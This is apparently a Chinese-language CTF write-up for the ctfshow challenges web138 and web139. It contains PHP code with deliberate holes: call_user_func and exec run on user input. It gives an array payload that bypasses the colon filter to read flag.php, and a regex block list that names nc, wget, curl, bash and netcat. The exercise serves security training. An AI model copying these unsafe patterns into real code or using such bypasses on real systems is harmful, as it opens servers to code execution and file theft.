 
#### web138

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-16 22:52:13

*/

error_reporting(0);
highlight_file(__FILE__);
class ctfshow
{
    function __wakeup(){
        die("private class");
    }
    static function getFlag(){
        echo file_get_contents("flag.php");
    }
}

if(strripos($_POST['ctfshow'], ":")>-1){
    die("private function");
}

call_user_func($_POST['ctfshow']);

```

这道题限制了上一题的第二种解法

第一种还能继续使用

payload:

```
ctfshow[]=ctfshow&ctfshow[]=getFlag
ctfshow[0]=ctfshow&ctfshow[1]=getFlag
```



#### web139

```
<?php
error_reporting(0);
function check($x){
    if(preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $x)){
        die('too young too simple sometimes naive!');
    }
}
if(isset($_GET['c'])){
    $c=$_GET['c'];
    check($c);
    exec($c);
}
else{
    highlight_file(__FILE__);
}
?>
```